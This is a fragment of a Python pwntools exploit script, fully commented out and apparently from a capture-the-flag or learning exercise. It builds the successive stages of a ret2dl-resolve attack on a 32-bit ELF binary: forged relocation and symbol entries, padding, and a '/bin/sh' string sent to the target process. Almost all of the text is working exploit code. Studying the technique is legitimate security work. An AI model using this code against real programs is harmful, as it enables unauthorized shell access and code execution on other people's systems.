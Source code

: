 ```python
# payload_3 += "/bin/sh\x00"
# payload_3 += "A" * (100 - len(payload_3))
# io.sendline(payload_3)
# print io.recv()

# reloc_index = base_addr + 28 - rel_plt  # fake_reloc = base_addr + 28
# r_info = 0x707
# fake_reloc = p32(write_got) + p32(r_info)
# payload_4  = "AAAA"
# payload_4 += p32(plt_0)
# payload_4 += p32(reloc_index)
# payload_4 += "AAAA"
# payload_4 += p32(1)
# payload_4 += p32(base_addr + 80)
# payload_4 += p32(len("/bin/sh"))
# payload_4 += fake_reloc
# payload_4 += "A" * (80 - len(payload_4))
# payload_4 += "/bin/sh\x00"
# payload_4 += "A" * (100 - len(payload_4))
# io.sendline(payload_4)
# print io.recv()

# reloc_index = base_addr + 28 - rel_plt
# fake_sym_addr = base_addr + 36
# align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # since the size of Elf32_Sym is 0x10
# fake_sym_addr = fake_sym_addr + align
# r_sym = (fake_sym_addr - dynsym) / 0x10  # calcute the symbol index since the size of Elf32_Sym
# r_type = 0x7    # R_386_JMP_SLOT -> Create PLT entry
# r_info = (r_sym << 8) + (r_type & 0xff) # ELF32_R_INFO(sym, type) = (((sym) << 8) + ((type) & 0xff))
# fake_reloc = p32(write_got) + p32(r_info)
# st_name = 0x4c
# st_info = 0x12
# fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)
# payload_5  = "AAAA"
# payload_5 += p32(plt_0)
# payload_5 += p32(reloc_index)
# payload_5 += "AAAA"
# payload_5 += p32(1)
# payload_5 += p32(base_addr + 80)
# payload_5 += p32(len("/bin/sh"))
# payload_5 += fake_reloc
# payload_5 += "A" * align
# payload_5 += fake_sym
# payload_5 += "A" * (80 - len(payload_5))
# payload_5 += "/bin/sh\x00"
# payload_5 += "A" * (100 - len(payload_5))
# io.sendline(payload_5)
# print io.recv()

# reloc_index = base_addr + 28 - rel_plt
# fake_sym_addr = base_addr + 36
# align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
# fake_sym_addr = fake_sym_addr + align
# r_sym = (fake_sym_addr - dynsym) / 0x10
# r_type = 0x7
# r_info = (r_sym << 8) + (r_type & 0xff)
# fake_reloc = p32(write_got) + p32(r_info)
# st_name = fake_sym_addr + 0x10 - dynstr     # address of string "write"
# st_bind = 0x1   # STB_GLOBAL -> Global symbol
# st_type = 0x2   # STT_FUNC -> Symbol is a code object
# st_info = (st_bind << 4) + (st_type & 0xf)  # 0x12
# fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)
```